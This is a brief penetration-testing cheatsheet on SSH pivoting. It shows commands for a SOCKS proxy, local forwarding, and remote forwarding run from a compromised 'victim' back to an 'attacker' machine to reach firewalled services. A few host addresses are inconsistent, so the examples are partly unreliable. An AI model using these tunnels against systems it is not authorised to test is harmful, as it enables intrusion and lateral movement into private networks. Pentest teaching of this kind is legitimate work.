 ## SSH Cheatsheet / Blackmagic

SSH has a lot of exciting features when it comes to pivoting in a pentest environment; btw most of it stemmed from devops situations :P. This is assuming you having ssh access on your victim, probably with root privilleges.

192.168.56.201 -> Victim Machine
192.168.56.202 -> Attacker Machine

The -f Commands forks the process into background and -N will not execute remote commands so you don't see a bash terminal but it runs in background.Good for crappy shells with less interaction
### 1. Socks Proxy
	ssh -D 127.0.0.1:1080 victim@192.168.56.201 -f -N
Creates a socks proxy tunnel via your local machine at local port 1080

### 2. Local Port Forwarding
	ssh -L 9999:localhost:22 victim@192.168.56.201 -f -N
    
Let's assume you have popped a box (low priv) which has ssh service running but the firewall blocks it from outside and for some wierd reason port 9999 is acessible from the outside.
You could do the above mentioned to Locally forward 22 to 9999
    
### 3. Remote Port Forwarding
The most useful commnand you will ever use in your life; execute at victim machine  

	ssh -R 6666:localhost:22 attacker@192.168.56.202
This forwards localport (ssh of the victim) to your system local port 6666 through an ssh tunnel.

You could then connct using ssh victim@localhost -p 6666 

You could do something cooler too , assuming you have a machine on the victim network 210 and you want to access it's web port directly from your attacker machine you can do this -  

	ssh -R localhost:9060:192.168.56.210:80 victim@192.168.56.201

Here you setup a secure SSH tunnel on the localport (attacker) 9060 which has a direct connection to port 80 of 210 ( a machine on victim network), cool eh ?

After that you could do
	ssh -R 7777:localhost:9060 attacker@192.168.56.201 -f -N
    
 This would remtely forward port 9060 on victim machine to your localport 7777.
 So basically you could browse port 80 on machine 192.168.56.210 from your own browser by pointing to http://localhost:7777
 
_More example coming soon. Please tweet out to @0xrnair in case you need clarifications_ 

----
 

References:  
1. [The Black Magic of SSH / SSH Can do that ?](https://vimeo.com/54505525)   
2. [Why aren't we using SSH for everything](https://medium.com/swlh/ssh-how-does-it-even-9e43586e4ffc#.hjbor5jlu)
